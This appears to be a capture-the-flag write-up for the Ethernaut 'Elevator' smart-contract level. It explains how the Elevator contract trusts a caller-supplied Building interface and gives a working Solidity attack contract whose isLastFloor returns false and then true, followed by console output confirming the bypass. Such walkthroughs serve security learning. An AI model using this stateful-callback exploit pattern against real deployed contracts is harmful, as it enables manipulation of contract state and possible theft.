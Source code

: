 # Elevator

The goal of this level is to reach the top of the building

## Code Breakdown

## Code Breakdown

[The Smart Contract's Code can be seen here.](Elevator.sol)

The contract defines two variables:

```solidity
bool public top;
uint public floor;
```

* `top`: a public boolean that indicates whether the elevator is on the top floor of the building.
* `floor`: a public uint256 that keeps track of the current floor.

```solidity
function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
```

The `goTo` function that takes a floor number as an argument. This function is intended to move the elevator to the specified `floor`. It does this by calling the `isLastFloor` function of the `Building` interface, which presumably is implemented by a contract that represents the building where the elevator is located. If the specified `floor` is not the top floor, the function sets the `floor` variable to the specified `floor` and the `top` variable to the result of calling `isLastFloor` with the current floor.
Another thing to note is that this contract takes the `Building` address from `msg.sender` which means we should call this function from the `Building` contract.

here I made a simple `Building` contract that takes the game's instance as argument when deployed, I implemented `isLastFloor` function in a way that returns **false** the first time entered (to satisfy this check)
```solidity
if (! building.isLastFloor(_floor))
```
 and then **true** the next time to set `top` to **true**
```solidity
top = building.isLastFloor(floor);
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Elevator {
    function goTo(uint _floor) external;
}

contract Building {
    Elevator elevator;
    bool public hasEntered;

    constructor(address _instance){
        elevator = Elevator(_instance);
    }

    function hack() public{
        elevator.goTo(5); // Call goTo function of Elevator, floor number here is irrelevant
    }

    // This function returns false the first time entered, then true the second time
    function isLastFloor(uint) external returns (bool){
        if (!hasEntered){
            hasEntered = true;
            return false;
        }
        hasEntered = false;
        return true;
    }
}
```
The `top` should be set to true now:

```js
>  await contract.top()
<· true
```